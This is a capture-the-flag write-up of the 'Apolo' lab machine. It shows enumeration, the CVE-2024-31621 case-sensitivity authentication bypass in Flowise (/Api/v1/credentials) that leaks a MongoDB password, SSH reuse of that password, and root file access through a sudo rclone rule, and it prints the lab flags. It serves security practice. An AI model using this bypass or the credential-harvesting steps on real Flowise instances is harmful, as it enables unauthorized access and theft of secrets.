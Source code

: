![](assets/images/banner.png)


<font size="10">Apolo</font>
15<sup>th</sup> December 2024

### Difficulty:

`Very Easy`

### Flags:

User: `HTB{llm_ex9l01t_4_RC3}`

Root: `HTB{cl0n3_rc3_f1l3}`

# Enumeration
Using `curl`, I probed the IP address `10.129.231.24` and observed a redirection to `apolo.htb`:
```
seclzi@anonymous:~$ curl http://10.129.231.24 -v
*   Trying 10.129.231.24:80...
* Connected to 10.129.231.24 (10.129.231.24) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.129.231.24
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Moved Temporarily
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 16 Dec 2024 09:59:00 GMT
< Content-Type: text/html
< Content-Length: 154
< Connection: keep-alive
< Location: http://apolo.htb/
< 
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
* Connection #0 to host 10.129.231.24 left intact
```
The server responded with a **302 Found** status, redirecting me to `apolo.htb`. To proceed, I added the domain `apolo.htb` to the `/etc/hosts` file for local resolution.

#### Nmap Scan
Next, I conducted a detailed scan using `nmap`:
```
seclzi@anonymous:~$ sudo nmap -sC -sV -sS apolo.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-16 17:06 WIB
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 17:07 (0:00:06 remaining)
Nmap scan report for apolo.htb (10.129.231.24)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Apolo
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.90 seconds
```

The scan revealed two open ports:

- **Port 22 (SSH):** OpenSSH 8.2p1
- **Port 80 (HTTP):** Nginx 1.18.0 (Ubuntu)

#### Subdomain Discovery

Examining the web page's source code, I found a subdomain `ai.apolo.htb`. To access it, I added this subdomain to the `/etc/hosts` file.

Upon visiting `ai.apolo.htb`, I gathered the following details:

- The subdomain is powered by **FlowiseAI**, a platform with a known vulnerability.
- Access to the AI interface requires login credentials.

---

![](assets/images/Pasted image 20241216171139.png)

![](assets/images/Pasted image 20241216171721.png)
#### Observations

The initial enumeration uncovered two critical pieces of information:

1. **Vulnerability in FlowiseAI:** A known authentication bypass vulnerability (CVE-2024-31621) could potentially be exploited.
2. **Host Configuration:** The server is running on an Ubuntu Linux system with services accessible through SSH and HTTP.

These findings set the stage for further exploitation of the FlowiseAI platform.
# Foothold

![](assets/images/Pasted image 20241216172037.png)
While researching Flowise, I discovered that versions <= 1.6.5 are vulnerable to a known issue listed as `CVE-2024-31621`.
### CVE-2024-31621: Flowise 1.6.5 - Authentication Bypass Vulnerability

#### **Overview**
Flowise version <= 1.6.5 is vulnerable to an **authentication bypass vulnerability** due to improper handling of **case sensitivity** in the authentication middleware.

---

### **Vulnerability Description**
The vulnerability lies in the following code snippet:

```javascript
this.app.use((req, res, next) => {
    if (req.url.includes('/api/v1/')) {
        whitelistURLs.some((url) => req.url.includes(url)) ?
        next() : basicAuthMiddleware(req, res, next)
    } else next()
});
```
### **Logic Flaw**
- The middleware checks if the URL contains `/api/v1/` (in lowercase) to enforce authentication, except for specific **whitelisted endpoints**.
- This check is **case-sensitive**, meaning uppercase variations of the URL (e.g., `/API/V1` or `/Api/v1`) bypass the authentication middleware.

### **EXPLOIT PoC**
I exploited this vulnerability by targeting the `/Api/v1/credentials` endpoint:
```
seclzi@anonymous:~$ curl http://ai.apolo.htb/Api/v1/credentials
```
**Output:**
```
[{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}]
```
The endpoint revealed a credentials ID. Next, I accessed the credentials directly using the extracted ID:
`seclzi@anonymous:~$ curl http://ai.apolo.htb/Api/v1/credentials/6cfda83a-b055-4fd8-a040-57e5f1dae2eb`
**Output:**
`{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z","plainDataObj":{"mongoDBConnectUrl":"mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority"}}`

---

### **Accessing the Shell**

The `mongoDBConnectUrl` revealed the username `lewis` and password `C0mpl3xi3Ty!_W1n3`. I used these credentials to attempt SSH access.
![](assets/images/Pasted image 20241216173546.png)
Bingo, we get the user !!!
# Lateral Movement
After gaining access to the user `lewis`, I enumerated their `sudo` privileges using `sudo -l` and discovered the following:

```
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

This indicated that `lewis` could execute the `rclone` command as root without a password. I leveraged this privilege to copy the `root.txt` flag from the `/root/` directory into my accessible `/home/lewis/` directory.

#### Exploitation Steps:

1. Used the following command to copy the `root.txt` file:
```
	lewis@apolo:~$ sudo rclone copy /root/root.txt /home/lewis/root.txt 
	
	2024/12/16 10:36:49 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
```

2. Verified the presence of the `root.txt` file in my home directory:
    
```
	lewis@apolo:~$ ls -la
	total 32
	drwxr-xr-x 4 lewis lewis 4096 Dec 16 10:36 .
	drwxr-xr-x 3 root  root  4096 Oct 28 11:34 ..
	lrwxrwxrwx 1 root  root     9 Dec  4 07:17 .bash_history -> /dev/null
	-rw-r--r-- 1 lewis lewis  220 Oct 28 11:34 .bash_logout
	-rw-r--r-- 1 lewis lewis 3771 Oct 28 11:34 .bashrc
	drwx------ 2 lewis lewis 4096 Nov 14 07:33 .cache
	-rw-r--r-- 1 lewis lewis  807 Oct 28 11:34 .profile
	drwxr-xr-x 2 root  root  4096 Dec 16 10:36 root.txt
	-rw-r----- 1 root  lewis   23 Nov 21 08:54 user.txt
```

    
3. Finally, I read the contents of the flag:
    
    ```
	lewis@apolo:~$ cat root.txt/root.txt && cat user.txt 
	HTB{cl0n3_rc3_f1l3}
	HTB{llm_ex9l01t_4_RC3}
	```
    

Bingo! The `root.txt` and `user.txt` flag was successfully retrieved.
